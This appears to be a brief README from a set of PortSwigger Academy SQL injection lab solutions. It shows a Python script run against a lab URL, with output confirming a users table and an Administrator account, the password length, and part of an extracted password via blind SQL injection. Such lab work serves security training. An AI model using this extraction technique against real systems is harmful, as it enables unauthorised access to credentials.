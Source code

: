 #### SQL Labs - PortSwigger Academy

*Blind SQL injection with conditional response lab* 
```shell-session
 $ python3 blind_sql_conditional_response.py https://aca11f2a1e76b68e80af965200bf0092.web-security-academy.net
 Checking users table: True
 Checking Administrator account: True
 Checking password length: 20
 Extracting Admin password: 4iwx
```
